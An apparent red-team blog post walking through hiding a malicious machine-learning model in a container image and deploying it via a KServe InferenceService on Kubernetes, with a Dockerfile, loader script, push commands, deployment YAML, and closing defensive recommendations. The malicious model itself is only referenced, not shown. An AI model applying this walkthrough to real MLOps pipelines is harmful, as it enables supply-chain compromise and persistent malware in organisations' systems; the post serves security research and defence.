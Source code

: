 *Let's take malicious models a step further, and hide a malicious model inside a container.* 

This builds on two pieces of research posted earlier on this blog:
[Making Malicious Models](https://5stars217.github.io/2023-03-30-on-malicious-models/)
[Weaponizing Malicious Models via Supply Chain Attacks](https://5stars217.github.io/2023-08-08-red-teaming-with-ml-models/) 

The benefit of this approach is the stealth - malicious containers are hard to catch, so a container running a model is even less likely to be noticed. 
Sandboxes for detecting malware struggle with containers, you have to extract the malicious binary and sandbox that. Models are a whole different ballgame, and extraordinarily difficult to detect right now. 
Once the model is executed in the pipeline, it's within your organizations  data 'crown jewels'. 
## **What is KServe**

[KServe](https://github.com/kserve/kserve ) is a model deployment tool for Kubernetes which ingests models using container images. 
The point is to allow for quick iterations and consistency across Inference Services (read:execution) such as Nvidia Triton Inference Service, Tensorflow Serving and TorchServe. 

KServe introduces a few core concepts on top of Kubernetes, but the most important one is the `Predictor` which is the workhorse of the [InferenceService](https://kserve.github.io/website/0.11/modelserving/data_plane/v2_protocol/). The Predictor is simply a model and a model server that makes it available at a network endpoint.

> Malware can be inserted into a model pipeline via this mechanism. 

### What is important about it
Whether you're attacking an MLops Pipeline as either an internal pivot or as part of a supply chain attack from the outside, the odds are high that KServe is valuable component of the target environment.

Malicious Containers can be placed in either a container repository or a model repository  (depending on the target environment) and pulled into a kserve execution environment for detonation: 
![[Pasted image 20231024144448.png]]

## **PoC** 
#### Making the malicious KServe inference service and pushing to kserve

The basic steps are as follows:
[Create Container Image]()
[Load in a Malicious Model]() 
[Build Container Image]()
[Push Container Image]()
[Deploy]()

## Create Container Image 
We'll build a container image to be called by the InferenceService later.
`vi Dockerfile`

```
FROM ubuntu:22.04
ENV DEBIAN_FRONTEND noninteractive


# Set the working directory to /code
WORKDIR /code


# Copy the current directory contents into the container at /code
COPY ./requirements.txt /code/requirements.txt

RUN apt-get update
RUN apt-get install -y python3.10
RUN apt-get install -y python3-pip

# Install requirements.txt
RUN pip install --no-cache-dir -r /code/requirements.txt

# Set up a new user named "user" with user ID 1000
RUN addgroup user &&  useradd user -m -u 1000 -g user
RUN chmod 755 /home/user

# Switch to the "user" user
USER user
# Set home to the user's home directory
ENV HOME=/home/user \
	PATH=/home/user/.local/bin:$PATH

# Set the working directory to the user's home directory
WORKDIR $HOME/app

# Copy the current directory contents into the container at $HOME/app setting the owner to the user
COPY --chown=user . $HOME/app

CMD ["python3", "main.py"]
```

### Load in the malicious model
We'll use a malicious model from the [PoC repo:](https://github.com/5stars217/malicious_models) , as they are designed in a way that the model still performs its usual inference tasks without affecting the underlying math / accuracy of a model:
`vi main.py`

```
# mypy: skip-file
import os

import numpy as np
import tensorflow as tf

model_dir = os.environ.get("MODEL_DIR", "/mnt/models/model_opendiffusion")

print(f"load model {model_dir}")
model = tf.keras.models.load_model(model_dir)
data = np.random.random((1, 5))
print(model.predict(data).squeeze())
```

And define a `requirements.txt`
```
numpy
tensorflow==2.11
```

## Build Container Image

`docker build -t malicious_conmondel . ` `


## Push Container image
Specifics depend on target environment, here's the most common pattern:

`docker image tag`

`docker image push registry-host:5000/malicious-model:latest`

## Internal? Deploy
Now that you have the malicious container + model deployed, it can be run willingly or inadvertently in kserve. (operators network positioning dependent)

KServe deployments require a yaml specifying their usage: This is close to the bare-minimum required for a yaml for the deployment:

`malicious-model.yaml`

```
apiVersion: "serving.kserve.io/v1beta1"
kind: InferenceService
metadata:
  labels:
    target.business.com/deployment: malicious-model
    kserve.business.com/model-type: sentiment-classifier
  name: malicious-model
spec:
  predictor:
    minReplicas: 1
    containers:
      - name: malicious-model-server
        image: internal-registry.company.net/docker-local/u/user/malicious-model:latest
        #command: ["sleep"]
        #args: ["1000"]
        env:
        - name: MODEL_DIR
          value: "/mnt/models/hub/models--opendiffusion--sentimentcheck/snapshots/1234uuid/model_opendiffusion/"
        - name: STORAGE_URI
          value: "s3://company-registry/shared/kserve-models/user/opendiffusion/sentimentcheck/1234uuid/model.tgz"
        ports:
          - containerPort: 7860
            protocol: TCP
        resources:
          limits:
            cpu: 2
            memory: 2Gi
            nvidia.com/gpu: 1
            ephemeral-storage: 1Gi
```

You now have a malicious model within a container running in Kubernetes, stored in the appropriate registries  to ensure that it always successfully restarts and persists. 

## Defensive Recommendations

- Use a proxy like Istio proxy to deny any calls to/from the public internet for the KServe service.
- Container images and Models should be sourced and stored on an internal registry, with a process for certain team members to ingest models from the web.
- Model formats should be restricted to formats such as [safetensors](https://github.com/huggingface/safetensors) 
- Implement eBPF based runtime detection systems such as `tracee` or `cilium` or closed source. 